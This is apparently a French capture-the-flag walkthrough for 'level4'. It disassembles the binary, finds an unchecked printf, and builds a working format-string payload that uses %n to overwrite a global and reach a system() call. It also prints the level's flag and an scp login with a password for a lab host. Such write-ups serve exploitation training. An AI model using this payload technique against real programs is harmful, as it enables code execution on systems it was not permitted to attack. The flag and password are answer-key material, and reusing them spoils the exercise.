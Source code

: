 On se connecte sur le level4, ou se trouve un **binaire** <code>level4</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level4 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) > disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf** comme pour **level3**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 12' | ./level4
BBBB|b7ff26b0|bffff794|b7fd0ff4|00000000|00000000|bffff758|0804848d|bffff550|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level4 | grep m
level3:     file format elf32-i386
...
08049810 g     O .bss   00000004              m
...</code></pre>

```gdb
> python -c 'print "\x10\x98\x04\x08" + "%12$08n"' > /tmp/payload2
> gdb -q level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) > b *0x08048492
Breakpoint 1 at 0x8048492
(gdb) > run < /tmp/payload2
Starting program: /home/user/level4/level4 < /tmp/payload2


Breakpoint 1, 0x08048492 in n ()
(gdb) > x/x 0x8049810
0x8049810 <m>:  0x00000004
```
On sait que l'on cherche 16930116 (0x1025544), donc il nous manque 16930112

<pre><code>> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$08n"' | ./level4
...
                                   -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
</code></pre>

For download :
<pre><code>scp -P4242 level4@192.168.1.78:level4 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
